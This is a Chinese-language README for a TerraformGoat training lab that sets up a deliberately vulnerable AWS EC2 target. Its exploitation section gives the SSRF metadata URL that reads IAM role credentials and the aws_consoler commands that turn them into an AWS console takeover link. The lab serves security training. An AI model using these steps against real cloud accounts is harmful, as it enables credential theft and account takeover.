

# AWS 控制台接管漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS 控制台接管漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 EC2 上的 STS 数据，从而接管 AWS 控制台。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/ec2/console_takeover/
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

## 漏洞利用

在存在 SSRF 漏洞的 EC2 上，我们可以利用 SSRF 读取 EC2 的 STS 数据。

读取 STS 信息

```shell
http://169.254.169.254/latest/meta-data/iam/security-credentials/huoxian_terraform_goat_role
```



利用 aws_consoler 生成 AWS 控制台访问链接

```shell
apt install python3-pip
pip install aws-consoler
aws_consoler -R us-east-1 -a {Your_AccessKeyId} -s {Your_SecretAccessKey} -t {Your_Token}
```

将生成的链接复制到浏览器中打开，就可以接管目标的 AWS 服务控制台了。


## 销毁环境

```shell
terraform destroy
```
